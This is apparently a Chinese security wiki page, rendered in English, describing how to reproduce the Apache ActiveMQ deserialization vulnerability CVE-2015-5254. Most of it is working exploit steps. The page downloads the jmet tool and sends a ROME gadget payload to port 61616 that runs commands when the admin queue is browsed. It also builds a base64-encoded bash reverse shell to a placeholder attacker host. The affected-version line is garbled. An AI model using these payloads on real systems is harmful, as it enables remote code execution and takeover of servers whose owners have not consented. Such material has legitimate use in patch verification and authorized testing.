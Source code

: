 ```yaml
---
Title: Apache ActiveMQ Deserialization Vulnerability CVE-2015-5254
---
```


# Apache ActiveMQ Deserialization Vulnerability CVE-2015-5254

## Vulnerability Description

Apache ActiveMQ is a set of open source messaging middleware developed by the Apache Software Foundation in the United States. It supports Java message services, clusters, Spring Framework, etc. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Apache ActiveMQ version 5.13.0 before 5.x</span>

## Vulnerability reappears


</a-alert>

```shell
wget https://github.com/matthiaskaiser/jmet/releases/download/0.1.0/jmet-0.1.0-all.jar
mkdir external
```

Send a payload that generates `/tmp/vuln` to the target

```plain
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/vuln" -Yp ROME xxx.xxx.xxx.xxx 61616
```

Visit `http://xxx.xxx.xxx.xxx:8161/admin/browse.jsp?JMSDestination=event` to see an extra message queue

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20220308145025293.png)

Click this information to trigger file creation

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20220308145111363.png)

Successfully execute the command to create a file, or create a payload of `bounce shell`

```shell
bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9999 0>&1  (base64编码)
YmFzaCAtaSA+JiAvZGV2L3RjcC94eHgueHh4Lnh4eC54eHgvOTk5OSAwPiYx

bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC94eHgueHh4Lnh4eC54eHgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}

发送payload
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC94eHgueHh4Lnh4eC54eHgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}" -Yp ROME xxx.xxx.xxx.xxx 61616
```

Clicking the message queue will trigger the command execution

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20220308145310216.png)